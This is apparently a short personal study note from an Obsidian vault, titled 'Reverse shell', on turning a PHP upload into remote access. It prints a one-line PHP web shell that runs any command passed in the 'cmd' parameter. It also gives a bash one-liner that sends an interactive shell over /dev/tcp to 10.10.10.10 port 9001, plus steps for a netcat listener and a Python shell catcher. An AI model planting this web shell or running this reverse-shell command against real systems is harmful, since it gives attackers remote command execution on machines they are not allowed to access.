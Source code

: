 ## Reverse shell 

- By passing the php  file we can open the reverse shell 


```php 
<?php system($_GET["cmd"]);?>
```
1. Checkout [reverse shell](https://www.revshells.com/)
2. Use dev tcp to open the shell since [[netcat]] is not avaiable 
	1. ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3. Create the listner with the [[netcat]]
4. Create a **python server** that catches the shell and enables interactivity


>[!quote]  [bash_MAIN](/obisdian_ntoes/notes_obsidian/Linux/commands/bash_MAIN.md)
